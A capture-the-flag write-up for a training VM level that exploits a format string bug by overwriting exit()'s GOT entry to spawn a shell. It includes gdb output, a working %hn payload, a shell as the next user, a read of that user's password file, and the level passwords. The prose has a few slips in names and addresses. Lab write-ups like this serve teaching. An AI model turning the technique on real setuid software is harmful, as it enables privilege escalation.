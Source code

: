 # Level5 - Format string vulnerability - Code redirection with GOT Overwrite

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |
| level6 | `d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level4

```shell
./level4
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x080484a4  o
  0x080484c2  n
  0x08048504  main
  (...)
```

```shell
gdb-peda$ pdisas main
  0x0804850a <+6>:     call   0x80484c2 <n>                     # call n()

gdb-peda$ pdisas o
  0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0         # 0x80485f0: "/bin/sh"
  0x080484b1 <+13>:    call   0x80483b0 <system@plt>            # call system("/bin/sh")
  0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
  0x080484bd <+25>:    call   0x8048390 <_exit@plt>             # call _exit(1)

gdb-peda$ pdisas n
  0x080484cb <+9>:     mov    eax,ds:0x8049848                  # 0x8049848 <stdin@@GLIBC_2.0>
  0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
  0x080484dc <+26>:    lea    eax,[ebp-0x208]
  0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
  0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>             # call fgets(buf, 0x200, stdin)
  0x080484ea <+40>:    lea    eax,[ebp-0x208]
  0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
  0x080484f3 <+49>:    call   0x8048380 <printf@plt>            # call printf(buf)
  0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
  0x080484ff <+61>:    call   0x80483d0 <exit@plt>              # call exit(1)
```

We need to call `o`-function that creates a new shell.

n() calls exit(1) at the end of his routine. It means that we never return to main() ! So, what do we do now ? Well, we’ll use a trick called GOT Overwrite.

Basically, when the program is executed, the GOT (Global Offset Table) is initialized for every external functions (like libc functions). By doing so, the executable will cache the memory address in the GOT, so that it doesn’t have to ask libc each time an external function is called.

The goal here will be to overwrite the address of exit() in the GOT with the address of hello(). There are 4 steps here :

- Find the address of o()
- Find the address of exit() in GOT
- Find the offset of our string on the stack
- Write the proper exploit string

Let’s find the address of exit() and o()

```shell
# Get exit-syscall address
objdump -R ~/level5 | grep exit
> 08049828 R_386_JUMP_SLOT   _exit
  08049838 R_386_JUMP_SLOT   exit

# Get o-function address
objdump -t ~/level5 | grep -w o
> 080484a4 g     F .text  0000001e              o
```

It means we want to write the value `0x080484a4` at the address of exit: `0x08049838`

We need to know the buffer address.

```bash
gdb-peda$ b *p+54 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff434 --> 0x200
0008| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0016| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 4 addresses before the printf argument.

As `0x080484a4` is a big value, instead of print this value, we will split this integer with two short integers:

- High-order bytes: `0x0804` will be written at `0x08040838 + 2`
- Low-order bytes: `0x84a4` will be written at `0x08040838`

Basically, our format string should be something like:

```
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   _____________________________________|                      |
   |           ________________________________________________|
   |           |
ADDRESS_1 + ADDRESS_2 + %<VALUE_1>x + %4$hn +  %<VALUE_2>x + %5$hn
   |           |            |                       |
0x0804083a 0x08040838  (0x0804 - 8)         (0x84a4 - 0x0804)

=> "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"
```

> \_Note: VALUE_1 has to be greater than VALUE_2. Otherwise, switch addresses

Lets confirm that:

```bash
gdb-peda$ b *n+54 # after printf
> Breakpoint 1 at 0x80484f8

gdb-peda$ run < <(python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"')
[------------------------------------stack-------------------------------------]
0000| 0xbffff420 --> 0xbffff430 --> 0x804983a --> 0x53e00804
0004| 0xbffff424 --> 0x200
0008| 0xbffff428 --> 0xb7fd1ac0 --> 0xfbad2088
0012| 0xbffff42c --> 0xb7ff37d0 (<__libc_memalign+16>:	add    ebx,0xb824)
0016| 0xbffff430 --> 0x804983a --> 0x53e00804                    # <----- %4$hn
0020| 0xbffff434 --> 0x8049838 --> 0x80484a4 (<o>:	push   ebp)  # <----- %5$hn
0024| 0xbffff438 ("%2044x%4$hn%31904x%5$hn\n")
[------------------------------------------------------------------------------]

gdb-peda$ x/x 0x8049838
> 0x8049838 <exit@got.plt>:	0x080484a4 # Perfect ! It contains our address

gdb-peda$ continue
> [New process 27345]
  process 27345 is executing new program: /bin/dash
  (...)
```

We perfectly overwritted the address of exit in the Global Offset Table. The new shell has been created but without setuid.
Let's try without gdb

```shell
python -c 'print "\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/exploit5
cat /tmp/exploit5 - | ~/level5

$ whoami
> level6
$ cat /home/user/level6/.pass
> d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)
- [Man exit](https://linux.die.net/man/3/exit)
- [Man \_exit](https://linux.die.net/man/2/_exit)
